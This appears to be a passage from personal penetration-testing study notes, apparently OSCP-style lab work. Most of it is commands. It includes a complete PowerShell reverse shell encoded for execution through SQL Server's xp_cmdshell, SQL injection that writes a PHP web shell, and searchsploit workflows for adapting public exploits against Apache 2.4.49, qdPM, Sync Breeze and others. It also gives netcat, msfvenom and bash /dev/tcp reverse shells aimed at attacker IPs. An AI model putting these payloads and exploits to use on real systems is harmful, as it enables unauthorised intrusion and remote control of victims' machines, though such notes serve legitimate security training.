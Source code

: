       $Text = '$client = New-Object System.Net.Sockets.TCPClient("<kali>",8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName  System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

      $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
      $EncodedText =[Convert]::ToBase64String($Bytes)
      $EncodedText
      ```
    - `'; EXECUTE xp_cmdshell 'powershell -e <base64>'; --`  
  - upload a PHP Backdoor from SQL  
    `' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE '/var/www/html/webshell.php' #`  
    `192xxx/tmp/webshell.php?cmd=id`  

# Public exploit  
- Search exploit by service + version  
  `searchsploit vsftpd 2.3.4`
  `searchsploit remote smb microsoft windows`
- select "Remote Code Execution"  
- common search words
  E.g: proftpd 1.3.5, joomla rce, kernel 5.x, samba, apache 2.4.49 rce,  ms17_010, windows iis rce, searchsploit linux kernel 5.4, CVE-2017-0144, windows local privilege escalation  
- Copy exploit locally    
  `searchsploit -m 12345.c`
- Fixing/Modifying exploits
  - change IP/port for reverse shell
  - adjust target path in web RCE
  - modify payload type cmd.exe, powershell, /bin/bash
- software version: qdPM 9.1 - Remote Code Execution (RCE) (Authenticated)
  - `searchsploit qdPM 9.1`: php/webapps/50944.py  
  - `searchsploit -m 50944`  
  - `python3 50944.py -url http://192.168.50.11/project/ -u george@AIDevCorp.org -p AIDevCorp`
  - `curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=nc -nv 192.168.50.129 6666 -e /bin/bash"`  
- **.c program** need compile to .exe
  - `searchsploit "Sync Breeze Enterprise 10.0.28"`: windows/dos/42341.c
  - modify the 42341.c (ip, port, target, shellcode)  
  - Compiling the exploit: `kali@kali:~ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`      
  - setting up a Netcat listener on port 443: `kali@kali:~$ sudo nc -lvp 443`  
  - Running the final version of the exploit: `kali@kali:~ sudo wine syncbreeze_exploit.exe`  
- **Upload**: WiFi Mouse 1.7.8.5 - Remote Code Execution
  - `searchsploit "mouse server"`: windows/remote/50972.py
  - `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.165 LPORT=443 -f exe -o shell64.exe`
  - start webserver, and listener
  - `python3 mouseserver_50972.py <target> <kali> shell64.exe`  
- **Bash script**: Apache httpd 2.4.49 - Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
  - `searchsploit "Apache 2.4.49"`: multiple/webapps/50383.sh  
  - start listener   
  - `./apache_2449_50383.sh targets.txt /bin/sh "bash -c 'bash -i >& /dev/tcp/192.168.45.165/4444 0>&1'"`  
- **Python execute directly**: CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution    
  - modify 44976.py (credentials, url, verify=false)    
  - `python2 44976.py`  
  - `http://192.168.171.52/cmsms/uploads/shell.php?cmd=cat /home/flag.txt`    
